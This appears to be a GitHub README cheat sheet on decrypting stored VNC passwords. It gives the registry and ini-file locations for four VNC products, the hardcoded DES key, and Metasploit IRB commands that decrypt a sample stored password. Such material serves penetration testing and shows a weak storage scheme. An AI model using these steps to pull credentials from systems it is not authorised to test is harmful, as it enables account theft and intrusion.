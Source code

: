 # PasswordDecrypts
Handy Stored Password Decryption Techniques

## VNC

VNC uses a hardcoded DES key to store credentials.  The same key is used across multiple product lines.

RealVNC 
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver 
Value: Password 
 
TightVNC  
HKEY_CURRENT_USER\Software\TightVNC\Server 
tightvnc.ini  
vnc_viewer.ini 
Value: Password or PasswordViewOnly  

TigerVNC 
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 
Value: Password 

UltraVNC 
C:\Program Files\UltraVNC\ultravnc.ini 
Value: passwd or passwd2 


reg query

Once you have an encypted VNC password such as: 
d7a514d8c556aade 
you can decrypt it easily using the Metasploit Framework and the IRB (ruby shell) with these 3 commands:
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07" 
require 'rex/proto/rfb' 
Rex::Proto::RFB::Cipher.decrypt ["YOUR ENCRYPTED VNC PASSWORD HERE"].pack('H*'), fixedkey  

```BASH
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["d7a514d8c556aade"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```

